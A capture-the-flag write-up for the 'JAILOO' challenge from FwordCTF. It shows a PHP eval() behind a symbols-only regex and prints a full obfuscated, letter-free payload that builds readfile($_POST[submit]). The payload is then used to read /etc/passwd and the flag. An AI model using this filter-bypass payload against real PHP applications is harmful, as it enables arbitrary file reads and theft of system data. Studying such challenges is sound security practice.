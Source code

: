 JAILOO WARMUP

# Writeup JAILOO from fword ctf

We have the source of a php file that allow us execute commands via php eval(), the problem is there is a regex that only allow a few characters:
```
if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
	echo "<div class=\"success\">Command executed !</div>";
	eval($cmd);
```
This basically means that we need to create a payload without using letters or numbers, just with ``&"+=()[]``
So lets go I have created a script that convert strings to that characters using the idea of getting an A and a from a php object like Array. We can get the A from 0 index and a from index 3.
With that I started with SYSTEM:
![f6d453f66866661cfea748c00e914fb6.png](/_resources/a515719da83441db93350317ca1a10bf.png)
But apparently it was not enabled y tried with asset, but it was disabled too.

So I end up using readfile(). As the server requires only 2 arguments I reused the submit variable to send the file I want to read. This means we need a payload like ``readfile($_POST[submit])``.
So lets create the payload I started with readfile:
![75dd983c25fd8db3c5d73810646ce083.png](/_resources/9627fd6e073e4d7cb6ecd9ba7c6bc5ab.png)
now _POST :
![19eb173e5e67667992ef9881d061e3b9.png](/_resources/4d06f3ebf6db44acbde7ac121d854f2e.png)

And finally submit:
![f9c66e3add3af3f9ce8bc6a4321daa4e.png](/_resources/e54ea12e4c52488890b4b569621437bb.png)

Adding alltogether we get our finnal pyaload:
```
$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$____.=$__;$__=$_;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$______=$____;$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_______=$____;$_____="_";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_=$$_____;$______($_[$_______]);
```
We just need to go and try the files we want to read using the POST parameter submit

trying with /etc/passwd:

![14897da3858336a65ed21ef670b184b6.png](/_resources/4f7d730bae1b450bbb4e5d05c5d66737.png)
Getting the flag:

![6e1118665f791a0eb24657b6f446faba.png](/_resources/e46d23c3bc7a4d24aded3789fe054d95.png)
